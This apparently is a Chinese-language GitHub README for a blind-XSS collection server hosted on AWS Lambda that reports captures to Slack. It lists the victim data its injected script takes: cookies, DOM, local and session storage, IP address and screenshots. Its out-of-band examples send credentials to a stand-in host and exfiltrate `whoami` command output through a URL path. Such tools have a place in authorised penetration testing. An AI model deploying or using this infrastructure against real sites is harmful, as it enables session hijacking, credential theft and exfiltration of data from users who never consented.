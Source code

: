 # Ass
The AWS Lambda Serverless Blind XSS App

利用VPS配置XSS平台太麻烦了，如果利用AWS的Lambda那不就是一个域名的事情么？剩下的环境配置、HTTPS证书、隐私性、VPS续费都不用管了，
所以根据[xless](https://github.com/mazen160/xless)重写了Lambda平台的XSS，利用slack机器人通知的方式代替邮件或者短信

XSS有四个URL可用，部署的时候建议修改不同的地址：
- `/msg` [OOB场景1](#OOB场景1)
- `/404` [OOB场景2](#OOB场景2)
- `/example` 查看js插入例子
![example.png](./images/example.png)

## :warning: 准备工作
- AWS账号
- Slack账号，包括一个slack App的通知机器人和上传图片需要的Auth Token
- 自定义域名(可选)

## :rocket: 部署
#### Slack 
[创建Slack的App](https://api.slack.com/apps),创建之后点进APP获取webhook和Token, webhook使用来通知机器人，Token可以使用`xoxb`开头的OAuth token，用于上传图片：

![slack.png](./images/slack.png)

#### AWS Lambda
##### 部署Lambda
修改`app.py`的 `Token,Bot`为你自己的信息:

```
virtualenv venv -p python3
. venv/bin/activate
sls plugin install -n serverless-wsgi
sls plugin install -n serverless-python-requirements
sls deploy #部署到aws
sls wsgi serve #本地测试
``` 
##### 绑定自定义域名
首先在域名提供商更改ns的地址，使用Route 53服务管理域名，设置自定义域名步骤：[how-to-edge-optimized-custom-domain-name](https://docs.aws.amazon.com/apigateway/latest/developerguide/how-to-edge-optimized-custom-domain-name.html)，总结来说如下：
1. 在API Gateway增加自定义域名，选择 Edge-optimized，在API映射选择创建好的lambda函数
2. 为域名配置ACM证书
3. 配置好之后得到一个`*.cloudfront.net`格式的域名
4. 在Route 53设置cname别名，cloudflare家不支持

## :incoming_envelope: 收集的信息

* Cookies
* User-Agent
* HTTP Referrer
* Browser DOM
* Browser Time
* Document Location
* Origin
* LocalStorage
* SessionStorage
* IP Address
* Screenshot


![xss.png](./images/xss.png)



## :satellite: Out-of-Band (OOB)
#### OOB场景1
在网站插入JS获取敏感信息传输到远程服务器，注意使用JSON格式：
```
http https://example.com/msg "UserName=admin" "Password=admin"  -v
```
![oob](./images/msg.png)

#### OOB场景2
命令执行外带到远程http服务：
```
http https://example.com/404/`whoami`
```
![oob](./images/oob.png)

### TODO
* 每次需要改JS的时候需要重新部署Lambda
